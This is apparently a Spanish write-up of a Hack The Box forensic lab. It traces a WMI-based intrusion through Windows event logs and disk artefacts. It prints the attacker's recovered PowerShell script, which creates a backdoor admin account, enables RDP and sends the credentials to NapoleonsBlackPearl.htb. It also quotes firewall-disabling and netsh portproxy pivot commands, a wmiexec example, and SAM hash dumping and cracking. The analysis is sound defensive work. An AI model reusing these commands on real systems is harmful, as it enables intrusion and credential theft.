




- chainsaw
- .evtx
- WmiPrvSE.exe

En este laboratorio se nos entrega una imagen de disco con una estructura típica:

```bash 
┌──(kali㉿kali)-[~/estudio/sherlocks/enduringecho]
└─$ tree -L 2 C
C
├── $Boot
├── $Extend
│   ├── $J
│   └── $Max
├── $LogFile
├── $MFT
├── $Secure_$SDS
├── ProgramData
│   └── Microsoft
├── Users
│   ├── Administrator
│   ├── Default
│   └── Werni
└── Windows
    ├── AppCompat
    ├── inf
    ├── prefetch
    ├── ServiceProfiles
    ├── System32
    └── Temp
```

Estaremos usando varias herramientas como chainsaw o jq para este laboratorio. 

En el caso de `chainsaw` podemos usar el siguiente comando para ver un análisis primario: 

```bash 
┌──(kali㉿kali)-[/opt/chainsaw/target/release]
└─$ ./chainsaw hunt -r ../../rules/ -s ../../sigma/ -m ../../mappings/sigma-event-logs-all.yml /home/kali/estudio/sherlocks/enduringecho/C/Windows/System32/winevt/logs/* --skip-errors`
```

Vemos unas conexiones del usuario werni: 



Pero nada más, no vemos comando interesantes en powershell, por lo que con esto podemos pasar a las preguntas del laboratorio. 

1.- What was the first (non cd) command executed by the attacker on the host?

Para esto podemos buscar en 2 canales diferentes, en el de `powershell` y en el de `security`, en el de powesherll podemo filtrar por el los eventid 4103 que registra invocación de comandos o inicialización de variables, y por el eventie 4104 que registra los bloques de código procesados por powershell. 

Para revisar esto podemos usar el visor de eventos de windows, no encontramos estos event id en el canal de powershell así que nos movemos a security. Ahora podemos centrarnos en el proceso 4688, que registra la creación de un nuevo proceso, detallando quién lo inició, el nombre del proceso, la ruta y si está habilitado o no, junto con los argumentos de la linea de comandos. 

Aplicamos un filtro por la palabra "werni", que es el nombre del usuario al que pertenece la imagen del disco y empezamos a ver cosas interesantes como el siguiente comando: 

`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1756077318.7337127 2>&1` - El sistema ejecuta `cd` de forma silenciosa(/Q /c), captura la ruta actual y guarda el resultado en un archivo dentro de ADMIN$ usando SMB, sin mostrar nada en pantalla. El uso de \\127.0.0.1\ADMIN$ es para una ejecución remota vía SMB, algo característico de WMI / PsExec / SMBExec / Impacket, herramientas de C2 y post-explotación y aunque apunta a localhost (127.0.0.1), el acceso se hace vía pila SMB, no como acceso local directo.

También podemos usar el siguiente comando con chainsaw: 

```bash 
┌──(kali㉿kali)-[~/…/Windows/System32/winevt/logs]
└─$ /opt/chainsaw/target/release/chainsaw search -t 'Event.System.EventID: =4688' Security.evtx --skip-errors -q | grep 'cmd.exe /Q'
    CommandLine: cmd.exe /Q /c cd \ 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c cd  1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c systeminfo 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c cd /Users/Werni 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c cd  1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c cd Projects 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c cd  1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    CommandLine: cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
```

Este log aparece a las **`2025-08-24T22:51:09.1827347Z`**.

Seguimos buscando con el filtro hasta que encontramos lo siguiente: 



ya se ejecuta un `systeminfo`, señal de que el atacante ha logrado acceso al sistema y está obteniendo información del sistema.

2.- Which parent process (full path) spawned the attacker’s commands?

Podemos ver esto en el log de la pregunta anterior, se trata de `C:\Windows\System32\wbem\WmiPrvSE.exe`. 

Se treta de WMI Provider Service Host(WmiPrvSE.exe), esto: 

- Aloja providers de Windows Management Instrumentation (WMI)

- Ejecuta consultas y métodos solicitados por:
    - PowerShell (Get-WmiObject, Get-CimInstance)
    - Instrumentación del sistema
    - Herramientas de administración remota
    - Software de monitoreo

En palabras simples, WmiPrvSE.exe es el “intermediario” de Windows que ejecuta tareas del sistema en nombre de otros programas.

- Recibe solicitudes legítimas:
    - “¿Cuánta RAM hay?”
    - “¿Qué versión de Windows es esta?”
    - “Ejecuta este comando”
- Ejecuta esas acciones con permisos elevados
- Devuelve el resultado al solicitante

**Por eso es usado en ataques**: Un atacante consigue credenciales válidas -> le da órdenes a este "intermediario" -> El "intermediario" (WmiPrvSE.exe) obedece porque:
    - La orden parece válida
    - Tiene permisos
**Por eso es tan usado en ataques silenciosos:**

3.- Which remote-execution tool was most likely used for the attack?

- El proceso padre es WmiPrvSE.exe — eso indica ejecución vía WMI (MITRE T1047).

- wmiexec.py (herramienta de la colección Impacket) usa WMI para crear un proceso remoto que normalmente aparece con WmiPrvSE.exe como parent y ejecuta cmd.exe /c … de forma no interactiva, justo como el comando que encontraste.

**El flujo de trabajo es el siguiente:**

- El operador entrega credenciales válidas (usuario/contraseña o hashes).

- wmiexec.py establece comunicación con el servicio WMI del equipo objetivo (usa RPC/DCOM y canales de Windows).

- Pide a WMI que cree un proceso remoto (equivalente a Win32_Process.Create) que ejecute el comando (por ejemplo systeminfo o cmd.exe /c ...).

- En el equipo objetivo se crea cmd.exe como proceso hijo cuyo padre es WmiPrvSE.exe.

- La salida estándar del comando se captura y se devuelve por la conexión, apareciendo en la consola del operador.


Un ejemplo clásico: 

```bash 
wmiexec.py CORP\\administrator:P@ssw0rd@10.0.0.5 systeminfo
```

4.- What was the attacker’s IP address?

Cuando wmiexec.py se conecta, necesita autenticarse. Esa autenticación queda registrada, por lo que buscamos: 

- Event ID: 4624
- Logon Type: 3 (Network)

Seguido de `Security Event ID 4672 (Special Privileges Assigned)`

Suele aparecer justo después del 4624.

- Confirma que la sesión es administrativa
- Normalmente comparte la misma IP de origen
- Útil para validar que estás viendo el inicio de sesión correcto

Por lo que podemos **retrocede unos segundos antes en Security.evtx y busca el 4624 más cercano en el tiempo** y es justo lo que encontramos: 



Esta ip ya la vimos previamente con las reglas de detección de chainsaw que aplicamos al principio. 

5.- The attacker established multiple persistence mechanisms. What is set as the name of the earliest one created?

Para esto tenemos que pensar en las diferentes técnicas de persistencia que generalmente usan lo atacantes, entre las más destacadas se encuentran las **Scheduled Tasks**, **. Run Keys (Registry Persistence)**, **WMI Event Subscription (persistencia avanzada)**.

Primeramente vamos a revisar las tareas programadas en **`/C/Windows/System32/Tasks`**. 

Revisando las tareas, en la sección de `Exec` de la tarea llamada `"'SysHelper Update'"` vemos lo siguiente: 

```bash 
 <Exec>
      <Command>powershell</Command>
      <Arguments>-ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1</Arguments>
    </Exec>
```

Visitando este fichero encontramos el siguiente script: 

```bash 
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

- Crea una lista de nombres candidatos para la nueva cuenta.
- Comprueba si alguno de esos usuarios ya existe.
- Si no existe ninguno, entra en la rama de creación.
- Selecciona uno de los nombres al azar.
- Genera un sufijo de tiempo para hacer la contraseña única.
- Construye la contraseña en texto claro (predictible por el formato).
- Convierte la contraseña para el API que crea el usuario (aunque la contraseña se creó en texto claro en memoria).
- Crea el usuario local con nombre, contraseña y descripciones "camufladas".
- Le da privilegios administrativos (elevado, peligroso).
- Le permite iniciar sesión por RDP.
- Cambia el registro para permitir conexiones RDP (fDenyTSConnections = 0 → RDP permitido).
- Habilita las reglas de firewall del grupo “Remote Desktop” para dejar pasar RDP.
- Envía las credenciales (codificadas en Base64) a un servidor remoto. Out-Null oculta cualquier salida. No le importa lo que responda el servidor, solo enviar los datos.


6.- Identify the script executed by the persistence mechanism. 

Esto lo encontramos en el fragmento de la tarea que mostré en la pregunta pasada: `C:\Users\Werni\Appdata\Local\JM.ps1`. 

7.- What local account did the attacker create?

Para esto tenemos que finajarnos en un par de EventID, el Event ID 4720 —> A user account was created, Event ID 4732 — A member was added to a security-enabled local group, Event ID 4672 —> Special privileges assigned to new logon, Event ID 4624 —> Successful logon (logons luego de la creación, especialmente RDP (tipo 10) o network (tipo 3)).

Fitrando por este evento, se puede usar jq o chainsaw directamente: 

```bash 
┌──(kali㉿kali)-[~/estudio/sherlocks/enduringecho/eventos]
└─$ jq '.Event | select(.System.EventID == 4720)' security.jsonl
```

Encontramos este evento, con una fecha de creación posterior a la fecha del primer comando ejecutado por atacante: 

```bash 
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Security-Auditing",
      "Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
    },
    "EventID": 4720,
    <SNIP>
    "TimeCreated_attributes": {
      "SystemTime": "2025-08-24T23:05:09.764658Z"
    },
    "EventRecordID": 4461,
    "Correlation_attributes": {
      "ActivityID": "9F5B5735-1548-0001-A457-5B9F4815DC01"
    },
    "Execution_attributes": {
      "ProcessID": 688,
      "ThreadID": 5796
    },
    "Channel": "Security",
    "Computer": "Heisen-9-WS-6",
    "Security": null
  },
  "EventData": {
    "TargetUserName": "svc_netupd",
    "TargetDomainName": "HEISEN-9-WS-6",
    "TargetSid": "S-1-5-21-3871582759-1638593395-315824688-1003",
    "SubjectUserSid": "S-1-5-18",
    "SubjectUserName": "HEISEN-9-WS-6$",

    <SNIP>
  }
}
```

8.- What domain name did the attacker use for credential exfiltration?

Lo vimos en el resumen del código de la tarea programada: NapoleonsBlackPearl.htb

Podemos comprobrar la conexión con el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/…/Users/Werni/AppData/Local]
└─$  /opt/chainsaw/target/release/chainsaw search -t 'Event.System.EventID: =4688' ../../../../../eventos/security.jsonl --skip-errors -q | grep 'cmd.exe /Q'
    <SNIP>
    CommandLine: cmd.exe /Q /c cmd /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts" 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1
    <SNIP>
```

9.- What password did the attacker's script generate for the newly created user?

Tenemos la fórmula con la que se crean las contraseñas, pero si intentamos usar el timestamp del registro encontrado en los logs de Security veremos que no es la correcta debido a los cambios de horario y las diferencias entre tiempos. 

Por lo que para este pudo podemos hacer uso de `secretsdump`, una utilidad de la suite de `impacket`. 

```bash 
┌──(kali㉿kali)-[~/…/C/Windows/System32/config]
└─$ /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security  SECURITY -system SYSTEM LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x3a2999e73d3448fb21e14bbd9a9480d1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:02679f6b636628c0822c7f9836b84282:::
Werni:1002:aad3b435b51404eeaad3b435b51404ee:0fa16c6a581bf468c6a83510926b8358:::
svc_netupd:1003:aad3b435b51404eeaad3b435b51404ee:532303a6fa70b02c905f950b60d7da51:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0xb5eb284702c6192c55d1a64faaac43c2a28ae137
dpapi_userkey:0xb371dc89b1cdcaf5b6083d5e087a2c2af1d65b19
[*] NL$KM
 0000   EF 3D B7 8F 87 D7 55 B7  EF 83 72 02 BA 85 73 44   .=....U...r...sD
 0010   4A 1C 81 E5 03 DA 37 C2  D9 54 60 89 36 22 D1 75   J.....7..T`.6".u
 0020   C7 81 1E A1 F6 0C D9 EC  65 36 8E 58 BC A5 7C 1F   ........e6.X..|.
 0030   FE 1D 9C 45 86 F0 82 23  FD 47 60 FB B2 21 FC B8   ...E...#.G`..!..
NL$KM:ef3db78f87d755b7ef837202ba8573444a1c81e503da37c2d95460893622d175c7811ea1f60cd9ec65368e58bca57c1ffe1d9c4586f08223fd4760fbb221fcb8
[*] Cleaning up...
```

Usamos las siguientes hives: 

SYSTEM.
- La BootKey (System Key) de Windows
- Información para descifrar secretos protegidos

SAM (Security Account Manager)
- Usuarios locales
- Hashes NTLM de contraseñas locales
- Estados de cuentas (habilitado, bloqueado, etc.)

SECURITY. 

LSA Secrets
- Credenciales almacenadas por el sistema
- Claves para servicios, tareas programadas, etc.
**Aquí pueden aparecer:**
- Contraseñas de servicios
- Credenciales de tareas programadas
- Secretos usados por Windows internamente

Ahora podemos crackear esto con hashcat: 

```bash 
┌──(kali㉿kali)-[~/…/C/Windows/System32/config]
└─$ hashcat -m 1000 -a 3 532303a6fa70b02c905f950b60d7da51 'Watson_20250824?d?d?d?d?d?d' --quiet
```

Con una buena PC se encontrará que la contraseña es `Watson_20250824160509`

La contraseña se generó usando la hora local del sistema del atacante, por eso vemos una diferencia de hora con logs que están normalizados a UTC. Esa diferencia es de 7 horas por el horario de verano (DST).

10.- What was the IP address of the internal system the attacker pivoted to?

En la pregunta 1 usamos un comando para observar todos los comandos ejecutados en el sistema, casi al final aparecen un par que ejecutan algo llamado `proxy.bat`. 

```bash 
┌──(kali㉿kali)-[~/…/Windows/System32/winevt/logs]
└─$ /opt/chainsaw/target/release/chainsaw search -t 'Event.System.EventID: =4688' Security.evtx --skip-errors -q | grep 'cmd.exe /Q'

    CommandLine: cmd.exe /Q /c reg add "HKLM\SYSTEM\CurrentControlSet\Services\WinHttpAutoProxySvc" /v Start /t REG_DWORD /d 3 /f 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c cd /Windows/Temp 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c cd  1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c .\proxy.bat 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c rm .\proxy.bat 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c del .\proxy.bat 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c shutdown /r /t 0 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    CommandLine: cmd.exe /Q /c cd \ 1> \\127.0.0.1\ADMIN$\__1756077318.7337127 2>&1
    CommandLine: cmd.exe /Q /c cd  1> \\127.0.0.1\ADMIN$\__1756077318.7337127 2>&1
```

También podemos ver en los logs alguna referencia hacia `netsh(Network Shell)`, que es una herramienta nativa de Windows para configurar y administrar la red del sistema desde línea de comandos. Permite modificar parámetros que normalmente se tocan desde el panel de control o mediante políticas.

En ataques, es muy común su abuso para crear túneles, redirecciones y persistencia a nivel de red. 

Aplicando un filtro: 

```bash
┌──(kali㉿kali)-[~/…/Windows/System32/winevt/logs]
└─$ /opt/chainsaw/target/release/chainsaw search -t 'Event.System.EventID: =4688' Security.evtx --skip-errors -q | grep -i 'netsh'
    CommandLine: cmd.exe /Q /c netsh advfirewall set all profiles state off 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    NewProcessName: C:\Windows\System32\netsh.exe
    CommandLine: netsh  advfirewall set all profiles state off
    CommandLine: cmd.exe /Q /c netsh advfirewall set allprofiles state off 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1
    NewProcessName: C:\Windows\System32\netsh.exe
    CommandLine: netsh  advfirewall set allprofiles state off
    NewProcessName: C:\Windows\System32\netsh.exe
    CommandLine: netsh  interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=192.168.1.101 connectport=22
```

Esta última línea indica -> **Cualquier conexión a cualquier IP del host comprometido, puerto 9999, se redirige internamente a 192.168.1.101:22.**

11.- Which TCP port on the victim was forwarded to enable the pivot?

Ya vimos que el puerto que se configura es el `9999`. 

```bash 
ssh → 10.10.10.25:9999
          ↓
   netsh portproxy
          ↓
192.168.1.101:22
```

12.- What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?

Las reglas creadas con: 

```bash 
netsh interface portproxy add v4tov4 ...
```

Estas reglas no viven solo en memoria: se almacenan en el Registro de Windows.

```bash 
HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp
```

13.- What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?

Esto está relacionado con proxies, podemos verlo en la siguiente técnica: 



Esto se usa como `C2C`: 

El atacante:

    - Controla el host comprometido
    - Abre un puerto (ej. 9999)
    -Redirige tráfico a un servicio interno

Desde fuera:

    - Todo parece comunicación con el host comprometido
    - Pero las órdenes llegan al sistema interno


**Cómo se exfiltran datos (conceptual)**

Caso 1: Exfiltración “pull”

    - El atacante se conecta al puerto expuesto
    - Solicita datos al sistema interno
    - Los datos regresan por el mismo canal

    ```bash 
    Interno → Proxy → Atacante
    ```

    No hay conexión saliente directa desde el interno.

Caso 2: Exfiltración “push”

    - El sistema interno envía datos a un servicio al que ya tiene acceso
    - El proxy reenvía hacia el atacante
    - Puede ir cifrado dentro de protocolos normales

Caso 3: Exfiltración fragmentada

    - Datos divididos en pequeñas respuestas
    - Mezclados con tráfico legítimo
    - Difícil de detectar por volumen


14.- Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this?

La respuesta está en la descripción de la técnica MITRE de la pregunta anterior, en la información para mitigar este ataque, se habla del grupo Vol Typon y de cómo abusaron de esta técnica: https://www.cisa.gov/sites/default/files/2024-03/aa24-038a_csa_prc_state_sponsored_actors_compromise_us_critical_infrastructure_3.pdf

Mencionan un comando que podemos buscar en la siguiente ruta: 

```bash 
┌──(kali㉿kali)-[~/…/Microsoft/Windows/PowerShell/PSReadline]
└─$ cat ConsoleHost_history.txt | tail -n 10
net users
cat .\Werni\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
Enable-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)"
Enable-NetFirewallRule -DisplayGroup "Remote Event Log Management"
Enable-NetFirewallRule -DisplayGroup "Remote Service Management"
auditpol /set /subcategory:"Process Creation" /success:enable
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select-Object AMRunningMode, RealTimeProtectionEnabled
```

Es este comando: 

```bash 
reg add
"HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v
ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1
```

reg es la utilidad nativa de Windows para:

    - Crear
    - Modificar
    - Eliminar
        valores del Registro de Windows desde línea de comandos.

**reg add añade o actualiza una clave/valor.**

-> Esto afecta a todo el sistema, no a un usuario.

```bash 
ProcessCreationIncludeCmdLine_Enabled
```

Este valor controla si Windows registra la línea de comandos completa cuando se crea un proceso.

## **Qué cambia realmente**

Antes:

    - El evento de creación de proceso no mostraba el comando completo
    - Solo se veía el ejecutable

Después:
    - Los eventos incluyen:
    - CommandLine
    - Argumentos completos
    - Rutas
    - Flags

**Esto aparece en:**
    - Event ID 4688 (Security log)

------

Sin esta política

```bash 
New Process Name: C:\Windows\System32\cmd.exe
```

Con esta política activada

```bash 
New Process Name: C:\Windows\System32\cmd.exe
CommandLine: cmd.exe /Q /c systeminfo 1> \\127.0.0.1\ADMIN$\__1756...
```

**Esto es exactamente lo que nos permitió ver comandos como netsh, systeminfo, etc.**

